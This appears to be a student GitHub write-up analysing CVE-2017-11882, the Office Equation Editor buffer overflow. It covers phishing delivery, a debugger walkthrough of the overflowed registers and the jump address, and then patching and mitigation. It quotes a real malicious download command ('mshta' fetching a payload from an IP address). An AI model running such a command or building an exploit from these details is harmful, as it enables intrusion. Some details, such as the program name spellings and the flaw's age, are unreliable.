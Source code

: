 # Microsoft Office Memory Corruption (CVE-2017-11882)  
![Word Logo](https://github.com/tingsama/hacking-p2/blob/main/Word%20Logo.png)  

### Background
* __Age__: 17 year old vulnerability
* __What is it__: Run arbitrary code remotely without user interaction
* __Why it works__: Buffer overflow vulnerability inside equation editor (EQUEDT32.exe)
* __Who has been affected__: Users who installed
  * Microsoft Office 2007 Service Pack 3
  * Microsoft Office 2010 Service Pack 2 
  * Microsoft Office 2013 Service Pack 1 
  * Microsoft Office 2016
* __CVSS__:
  * The Common Vulnerability Scoring System
  * The score is 7.8 (high)
  * Really dangerous & should be fixed ASAP  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/CVSS.png"></p>
<p align="center"> Figure 1:  CVSS score [1] </p>  


### It always starts from the internet phishing...
1.	A spam __email__
2.	An __attachment__
3.	A __.doc file__ in Rich Text Format (RTF)
4.	__Microsoft Office__ will automatically open it  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/Spam%20Email.png"></p>
<p align="center"> Figure 2:  Spam Email [2] </p>  


### Process Monitor
It is an [advanced monitoring tool for Windows](https://nvd.nist.gov/vuln-metrics/cvss).  
[It is used to monitor and display all the activities of file system in real-time.](https://en.wikipedia.org/wiki/Process_Monitor)  
* Unexpected operation named 'EQNEDT32.EXE'
* Command line has been called
* (Very like) a malicious host - 'mshta http://104.254.99.77/x.txt'  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/Process%20Monitor.png"></p>
<p align="center"> Figure 3:  Processes List [3] </p>  


### Burp Suite
It is a [web vulnerability scanner](https://portswigger.net/burp).  
[It is a set of tools used for penetration testing of web applications.](https://www.geeksforgeeks.org/what-is-burp-suite/g)  
* Unexpected 'GET' request 
* (Very like) a malicious host - 'mshta http://104.254.99.77/x.txt'  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/Burp%20Suite.png"></p>
<p align="center"> Figure 4:  Get request [3] </p>  


### Steps after you click the malicious word file:
#### 1. Microsoft Word file load up  
Here microsoft word will load up and read and compile the stuff inside. 
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/step%201.png"></p> 
  
#### 2. Execute Equation Editor  
Everyone used the equation editor before, to create the nice look equations.  
However, the equation editor is another individual program and Microsoft Word invokes its own process.  
In this case, everything inside the equation editor can skip all Microsoft protection bubbles.  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/step%202.png"></p> 
  
#### 3. Hacker overflowed the font name registers inside Equation Editor  
Before overflow EAX save the length of font name which is 16 bytes (Hex:00000010).  
And the detail inside the font name registers is “TIMES NEW ROMAN”.  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/step%203-1.png"></p> 
<p align="center"> Figure 5:  Debuger screenshot 1 [3] </p>  
After overflow, EAX pointed to 0012F350 and overflowed all other registers.  
On memory 004115CF, it loads whatever is inside the ebp register and pushes into the EAX register.  
The ebp register is a two way pointer and linking between word document and equation editor.  
The hacker changed the ebp register value to 48 bytes and then it was loaded to the EAX register.  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/step%203-2.png"></p> 
<p align="center"> Figure 6:  Debuger screenshot 2 [3] </p>
  
#### 4. Overflow message  
Let now take a look at the 48 bytes detail inside the overflowed register beginning at address: 0012F350.  
From address 0012F350 to 0012F360 32 bytes are saving the hacker's mshta link and it can send a get request to this link and download the malicious software.  
Address: 0012F370 first 12 bytes are ‘20’ which are saving shell code inside but we cannot see it in detail through ASCii reader.   
The final 4 bytes are ‘12 0C 43 00’ which is the new EIP register address that the hacker wants us to jump to in the next step.  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/step%204.png"></p> 
<p align="center"> Figure 7:  Debuger screenshot 3 [3] </p>  
  
#### 5. Redirect to new EIP address  
Here we can see at address: 00430C12 it call the Winexe program.  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/step%205.png"></p> 
<p align="center"> Figure 8: Debuger screenshot 4 [3] </p>  
  
#### 6. Winexe execute   
From the code here we can see the Winexe execute at address 00430C12 and talk to the EAX register as it input.  
In this case, inside the Winexe it will run shell code first, then send a get request to the hacker's link.  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/step%206.png"></p> 
<p align="center"> Figure 9: Debuger screenshot 5 [3] </p>  
  
#### 7. Download hacker’s malicious software   
Finally after everything executes and runs correctly, it will download the malicious software and hide in some specific hard finding place to continuously steal your personal information.  


### [How to protect yourself from this exploit](https://support.microsoft.com/en-us/topic/how-to-disable-equation-editor-3-0-7e000f58-cbf4-e805-b4b1-fde0243c9a92)
The best way to protect your machine from this vulnerability is patching.
However, if you decide not to patch, a simple way to protect your machine is to disable EQUAEDT32.exe which is the equation editor that has the vulnerability.
The following commands can update your registry to disable EQUAEDT32.exe.
If you have an Office software running on a x64 machine, then you can use the second command, otherwise the first command is your choice. [4]  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/Update%20Registry.png"></p> 
<p align="center"> Figure 10: Update registry [4] </p>  


### [Official Patch](https://blog.0patch.com/2017/11/official-patch-for-cve-2017-11882-meets.html)
The official patching for CVE-2017-11882 was done in a Patch Tuesday update in November 2017. The patching was mainly done at function sub_0041160F.
The difference of the patched function(left hand side) and the original function(right hand side) is shown below.
The left top block shows that a boundary check is added. This line of code reset the counter register to 0x20 if it is larger than or equal to 0x21.
The left bottom block added a buffer truncation. This code makes sure only 0x20 bytes are copied and zero-terminate. [5]  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/Official%20Patch.png"></p> 
<p align="center"> Figure 11: Official Patch [5] </p>  


### How to avoid?
* Don’t skip patches.  
Simply __patch__ or __update__ the software can prevent an attack from happening. 
* Use a real-time anti-virus.  
Using a __anti-virus software__ can sometime be helpful.
* Filter your email.  
__Block__ the type of document that you don't use.  
__Do not click__ on the link or a document that looks suspicious. 
* Keep track of your websites. 
__Don’t enable online services__ or __create online accounts__ just because of promotion. 


### Reference:  
[1]"NVD - CVE-2017-11882", Nvd.nist.gov, 2021. [Online]. Available: https://nvd.nist.gov/vuln/detail/CVE-2017-11882. [Accessed: 18- Mar- 2021].  
[2]Blogs.quickheal.com, 2021. [Online]. Available: https://blogs.quickheal.com/wp-content/uploads/2018/02/Fig3.png. [Accessed: 18- Mar- 2021].  
[3]C. Hardy, Stack Buffer Overflows - a primer on smashing the stack using CVE-2017-11882. 2021.  
[4]C. Hardy, CVE-2017-11882 - 3 ways to perform technical analysis, 1 easy way to protect. 2021.  
[5]L. Treiber, "Microsoft's Manual Binary Patch For CVE-2017-11882 Meets 0patch", Blog.0patch.com, 2021. [Online]. Available: https://blog.0patch.com/2017/11/official-patch-for-cve-2017-11882-meets.html. [Accessed: 18- Mar- 2021].
